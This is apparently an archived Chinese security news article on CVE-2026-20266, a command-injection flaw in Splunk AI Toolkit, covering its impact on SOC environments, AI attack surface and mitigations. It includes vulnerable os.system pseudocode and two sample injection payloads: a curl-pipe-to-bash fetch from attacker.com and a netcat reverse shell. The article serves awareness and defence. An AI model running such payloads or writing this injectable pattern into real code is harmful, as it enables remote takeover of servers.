

# Splunk AI Toolkit曝高危漏洞：CVSS 9.1，可远程执行任意系统命令

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：文列<5.7.4、Splunk管理员权限PR:H，不是匿名或普通用户RCE
- 证据范围：伪代码明确称类似而非源码，但后文普遍推演SOC接管、AI风险没有漏洞专属实证；不是PoC

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 将管理员条件前置标题摘要；管理员权限≠宿主root权限
- 应补官方公告和修复版本依据，切勿把示意os.system当真实代码
- AI/Prompt/记忆投毒只是旁论，与本命令注入不同漏洞；删重复图片和广告

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

原创 安全ker
                    安全ker  安全客   2026-06-18 11:36  
  
最近，AI安全领域再次响起警报。  
全球知名安全运营平台Splunk披露，其AI Toolkit组件存在一个严重安全漏洞，攻击者一旦成功利用，可直接在目标服务器上执行任意操作系统命令，甚至进一步控制整个安全运营环境。  
  
  
漏洞编号为CVE-2026-20266，CVSS评分高达9.1分，影响Splunk AI Toolkit 5.7.4之前的所有版本。  
  
对于大量依赖Splunk开展日志分析、威胁检测和安全运营工作的企业而言，这并不是一个普通漏洞，而是一次对AI安全能力本身的警示。  
  
  
  
  
  
一个AI组件，为何能拿到9.1高分？  
  
  
  
  
根据Splunk发布的安全公告，该漏洞属于经典的CWE-78：OS Command Injection（操作系统命令注入）。  
  
问题出现在AI Toolkit内部的一个名为btool configuration helper的辅助组件。  
  
简单来说，这个组件负责处理配置相关操作，但开发过程中采用了不安全的Shell调用方式。  
  
其核心逻辑类似：  
```
command = f"some_tool {user_input}"
os.system(command)
```  
  
程序会动态拼接命令字符串，并交由Shell执行。  
  
但开发者没有对输入参数进行严格过滤，也没有关闭Shell解释功能。  
  
攻击者只需要构造特殊参数，例如：  
```
; curl attacker.com/shell.sh | bash
或者：
&& nc -e /bin/bash attacker_ip 4444
```  
  
系统就可能在执行正常配置命令的同时，执行攻击者植入的恶意指令。  
  
  
  
利用门槛不低，但后果极其严重  
  
  
  
  
从CVSS向量来看：  
  
AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H  
  
漏洞具备几个特点：  
  
网络可达（AV:N）  
  
攻击者无需本地接触设备。  
  
利用复杂度低（AC:L）  
  
无需复杂环境构造。  
  
无需用户交互（UI:N）  
  
管理员不需要点击链接或下载文件。  
  
影响范围扩大（S:C）  
  
可能突破Splunk应用边界，影响宿主系统。  
  
当然，漏洞利用也有一个前提：  
  
攻击者需要拥有Splunk管理员权限。  
  
有些人看到这里可能会认为问题不大。  
  
但在真实攻防场景中，这恰恰是最危险的一类漏洞。  
  
因为Splunk管理员账户往往是攻击链中的重要目标。  
  
攻击者完全可能通过以下方式获取权限：  
- 凭证泄露；  
  
- 弱密码攻击；  
  
- 钓鱼邮件窃取Cookie；  
  
- SSO配置缺陷；  
  
- 内部人员滥用；  
  
- 已存在的Splunk漏洞组合利用。  
  
一旦获得管理员权限，CVE-2026-20266就成为攻击者横向移动和权限扩张的重要跳板。  
  
  
  
为什么Splunk失守比普通服务器更危险？  
  
  
  
  
与普通业务系统相比，Splunk承担的是企业安全运营中心（SOC）的核心职责。  
  
它掌握着企业最敏感的数据资产，包括：  
- 网络流量日志；  
  
- 主机审计数据；  
  
- 安全告警信息；  
  
- 威胁情报数据；  
  
- 用户行为记录；  
  
- 云平台日志。  
  
攻击者控制Splunk后，可能造成四类严重影响。  
  
1.篡改安全告警  
  
删除攻击痕迹。  
  
关闭检测规则。  
  
伪造正常日志。  
  
使安全团队“失明”。  
  
2.窃取敏感数据  
  
Splunk中汇聚的大量日志，本身就是攻击者眼中的情报金矿。  
  
例如：  
  
VPN账户信息；  
  
API密钥；  
  
数据库连接信息；  
  
内网资产清单；  
  
安全设备配置。  
  
3.破坏安全运营能力  
  
停止Indexer。  
  
关闭Search Head。  
  
删除知识库。  
  
导致SOC无法正常运行。  
  
4.作为横向渗透跳板  
  
许多企业Splunk部署在高权限区域。  
  
甚至能够访问：  
- AD域控；  
  
- 云平台接口；  
  
- EDR管理端；  
  
- 漏洞扫描系统；  
  
- SOAR自动化平台。  
  
攻击者一旦控制Splunk，就相当于拿到了整个安全体系的中枢控制台。  
  
  
  
AI工具正在成为新的攻击面  
  
  
  
  
值得关注的是，此次漏洞并不发生在Splunk核心引擎，而是出现在AI Toolkit中。  
  
这意味着：  
  
AI能力正在成为企业新的攻击入口。  
  
近年来，越来越多安全厂商开始引入AI组件，例如：  
- LLM辅助分析；  
  
- 自动化告警研判；  
  
- Agent编排；  
  
- 智能查询助手；  
  
安全Copilot。  
  
这些AI能力通常需要调用外部工具、执行脚本、访问系统资源。  
  
如果开发过程中缺乏安全设计，很容易出现：  
  
Prompt注入  
  
攻击模型执行非预期操作。  
  
工具调用滥用  
  
Agent被诱导调用高权限工具。  
  
命令注入  
  
动态拼接Shell命令。  
  
依赖组件漏洞  
  
第三方AI框架自身存在缺陷。  
  
记忆投毒  
  
长期污染模型上下文。  
  
CVE-2026-20266再次提醒行业：  
  
AI功能越强大，安全边界就越需要前置设计。  
  
  
  
如何应对此次漏洞？  
  
  
  
  
Splunk官方已经发布修复版本。  
  
受影响版本  
  
AI Toolkit 5.7.4以下版本。  
  
安全版本  
  
AI Toolkit 5.7.4及以上。  
  
企业建议立即开展以下工作。  
  
第一，全面排查资产  
  
确认是否部署Splunk AI Toolkit。  
  
统计具体版本。  
  
第二，立即升级  
  
优先升级至5.7.4以上版本。  
  
避免继续暴露风险。  
  
第三，限制管理员权限  
  
严格控制Splunk管理员账号数量。  
  
采用最小权限原则。  
  
第四，加强行为监测  
  
重点关注：  
- 异常Shell调用；  
  
- 可疑子进程创建；  
  
- 网络外联行为；  
  
- 非授权配置修改。  
  
第五，评估AI组件风险  
  
建议将AI插件、Agent工具链纳入漏洞管理体系。  
  
建立独立的AI应用安全基线。  
  
  
  
结语  
  
  
  
  
CVE-2026-20266本质上并不是一个新型漏洞。  
  
它依然属于安全行业最熟悉的命令注入问题。  
  
但它发生在AI工具组件中，影响的是企业安全运营平台，这使得其风险等级被进一步放大。  
  
过去，我们更多关注AI模型是否足够智能；如今，更需要关注的是：  
  
AI是否足够安全。  
  
对于安全行业而言，AI不是外挂，更不是万能药。只有将安全能力深度融入模型、工具和智能体的设计阶段，才能真正避免“用AI守护安全，却被AI拖垮安全”的尴尬局面。  
  
信息来源：  
https://cybersecuritynews.com/splunk-ai-toolkit-vulnerability/  
  
  
  
END  
  
推荐阅读  
  
[Weaxor勒索软件又添Linux平台变种](https://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649790094&idx=1&sn=e06d67c3804a4211060e273061b1f30e&scene=21#wechat_redirect)  
  
  
2026-06-17  
[](https://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649790094&idx=1&sn=e06d67c3804a4211060e273061b1f30e&scene=21#wechat_redirect)  
  
  
[制药巨头诺和诺德遭遇安全事件：药企网络安全再敲警钟](https://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649790068&idx=1&sn=ed7d53228ef279c16414c2c463c78e52&scene=21#wechat_redirect)  
  
  
2026-06-15  
[](https://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649790068&idx=1&sn=ed7d53228ef279c16414c2c463c78e52&scene=21#wechat_redirect)  
  
  
[45.5万人中招！英国名校遭供应链攻击，你的校园账户还安全吗？](https://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649790063&idx=1&sn=bab80c055559d24502094d21728ce1ed&scene=21#wechat_redirect)  
  
  
2026-06-14  
[](https://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649790063&idx=1&sn=bab80c055559d24502094d21728ce1ed&scene=21#wechat_redirect)  
  
  
[Mythos可数小时内把漏洞变成武器：Anthropic还是未开放使用](https://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649790051&idx=1&sn=52cfd439a009d5ae32e098a4bd6706b0&scene=21#wechat_redirect)  
  
  
2026-06-11  
[](https://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649790051&idx=1&sn=52cfd439a009d5ae32e098a4bd6706b0&scene=21#wechat_redirect)  
  
  
[10万行空行就能骗过AI安检？顶尖安全团队实测：主流技能扫描器全部穿帮](https://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649790046&idx=1&sn=465bf3f2a4a264db6daa33030ec607cc&scene=21#wechat_redirect)  
  
  
2026-06-10  
[](https://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649790046&idx=1&sn=465bf3f2a4a264db6daa33030ec607cc&scene=21#wechat_redirect)  
  
  
  
更多AI知识，请关注360 Aiker World社区  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
